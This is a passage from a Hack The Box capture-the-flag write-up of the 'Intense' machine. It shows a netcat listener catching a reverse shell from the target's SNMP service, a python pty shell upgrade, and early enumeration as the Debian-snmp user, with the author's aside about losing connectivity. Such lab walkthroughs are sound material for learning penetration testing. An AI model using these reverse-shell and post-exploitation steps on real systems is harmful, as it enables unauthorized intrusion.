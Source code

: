 ```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541                              
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 60688
$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
```

got a shell back on my waiting nc listener


> There was a strange problem I encountered with this SNMP shell...if I lost my shell I would lose the ability to connect back to this box. Not sure why or how, but it took two resets of my connection pack and my local machine to get it to work again. I thought I had lost all connection to HTB, but after it happened again a few days later I tried pinging a known active box \(I think I had accidentally tried pinging a box that is inactive, leading me to believe I lost my whole connection\).  After it happened again later I reset the machine itself and this fixed it...




## Path to Power \(Gaining Administrator Access\)

### Enumeration as `Debian-snmp`

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nc -lvnp 55541
listening on [any] 55541 ...
connect to [10.10.15.100] from (UNKNOWN) [10.10.10.195] 57960
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
Debian-snmp@intense:/$ export TERM=xterm-256color
export TERM=xterm-256color
Debian-snmp@intense:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
Debian-snmp@intense:/$ id && hostname
id && hostname
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
intense
Debian-snmp@intense:/$ sudo -l
sudo -l
[sudo] password for Debian-snmp: 

Debian-snmp@intense:/$ cd home
cd home
Debian-snmp@intense:/home$ ls
ls
user
Debian-snmp@intense:/home$ cd user
cd user
Debian-snmp@intense:/home/user$ ls -la
ls -la
total 76
drwxr-xr-x 5 user user  4096 Jun 29 06:30 .
drwxr-xr-x 3 root root  4096 Nov 16  2019 ..
lrwxrwxrwx 1 root root     9 Nov 23  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 user user  3771 Apr  4  2018 .bashrc
drwx------ 2 user user  4096 Nov 16  2019 .cache
```
